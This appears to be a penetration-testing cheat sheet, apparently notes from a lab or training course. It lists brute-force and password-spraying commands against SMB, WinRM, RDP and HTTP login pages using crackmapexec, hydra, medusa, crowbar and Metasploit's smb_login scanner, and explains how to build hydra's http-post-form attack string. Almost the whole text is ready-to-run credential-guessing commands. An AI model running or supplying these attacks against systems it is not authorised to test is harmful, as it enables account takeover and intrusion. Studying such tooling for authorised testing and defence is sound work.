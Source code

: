 ## SMB
```bash
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

$ hydra -L user.list -P password.list smb://10.129.42.197

$ msf6 > use auxiliary/scanner/smb/smb_login
```

## WinRM
```bash
$ crackmapexec winrm <IP> -u user.list -p password.list
```

## RDP
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
$ hydra -L user.list -P password.list rdp://10.129.42.197`
```

* * *

## Login Attacks
### Basic HTTP Authentication
```bash
$ hydra -l <USER> -P <WORLIST.TXT> <IP> http-get /
```

- http-get /: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').

```bash
$ medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^
```


### Brute Forcing Forms
two types of http modules interesting for us:

- http[s]-{head|get|post}
- http[s]-post-form
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like .php or .aspx and others.

To decide which module we need, we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.


```bash
$ hydra -l <admin> -P /usr/share/wordlists/rockyou.txt -f <IP> -s <PORT> http-post-form "/login.php:<username>=^USER^&<password>=^PASS^:F=<Invalid Login>"
```
